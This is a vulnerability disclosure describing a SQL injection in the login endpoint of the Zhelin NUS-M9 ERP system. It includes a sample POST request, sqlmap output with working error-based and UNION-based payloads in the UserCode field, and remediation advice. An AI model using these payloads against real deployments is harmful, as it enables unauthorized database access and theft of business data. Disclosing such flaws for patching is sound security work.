

## Zhelin NUS-M9 ERP Management Software for the Mechanical Industry

**Zhelin Information Technology Co., Ltd. (abbreviated as Zhelin Software)** is a high-tech internet data company focused on the mechanical industry. The company specializes in the development, consulting, implementation, and services of enterprise management information software platforms. A SQL injection vulnerability has been identified in Zhelin NUS-M9 ERP management software for the mechanical industry.

## Info

哲霖NUS-M9机械行业ERP管理软件存在SQL注入漏洞。

Dongguan Jerin Information Technology Co., LTD：http://www.nuserp.com/

## Vulnerability Impact

This SQL injection vulnerability allows attackers to manipulate the database by crafting malicious SQL statements. This can lead to unauthorized access, modification, or even deletion of sensitive information within the database. The consequences may include data breaches, business disruptions, and potential further system compromise.


POST data：

```http
POST /UserWH/checkLogin HTTP/1.1
Host: 127.0.0.1:8088
Content-Length: 30
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{UserCode:'123',UserPsw:'123'}
```

SQLmap data：

```sql
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON-like UserCode ((custom) POST)
    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: {UserCode:'123' AND 9643 IN (SELECT (CHAR(113)+CHAR(106)+CHAR(106)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (9643=9643) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(120)+CHAR(118)+CHAR(98)+CHAR(113))) AND 'nabh'='nabh',UserPsw:'123'}

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: {UserCode:'123' UNION ALL SELECT NULL,NULL,NULL,NULL,CHAR(113)+CHAR(106)+CHAR(106)+CHAR(106)+CHAR(113)+CHAR(76)+CHAR(109)+CHAR(105)+CHAR(100)+CHAR(90)+CHAR(81)+CHAR(101)+CHAR(65)+CHAR(71)+CHAR(119)+CHAR(97)+CHAR(87)+CHAR(120)+CHAR(118)+CHAR(73)+CHAR(75)+CHAR(105)+CHAR(70)+CHAR(102)+CHAR(87)+CHAR(86)+CHAR(108)+CHAR(107)+CHAR(75)+CHAR(83)+CHAR(90)+CHAR(101)+CHAR(119)+CHAR(75)+CHAR(114)+CHAR(97)+CHAR(78)+CHAR(65)+CHAR(110)+CHAR(81)+CHAR(72)+CHAR(118)+CHAR(114)+CHAR(122)+CHAR(105)+CHAR(113)+CHAR(120)+CHAR(118)+CHAR(98)+CHAR(113),NULL-- ugAI',UserPsw:'123'}
---
```



## Remediation Suggestions

1. **Input Validation**: Implement strict validation and sanitization of all user inputs to ensure only legitimate data is accepted.
2. **Use Prepared Statements**: Utilize prepared statements in database queries to prevent SQL injection.
3. **Principle of Least Privilege**: Ensure that database users only have the minimum necessary permissions to perform their tasks, reducing the potential attack surface.
4. **Regular Security Audits**: Conduct regular security audits of the code and database to identify and fix potential vulnerabilities promptly.
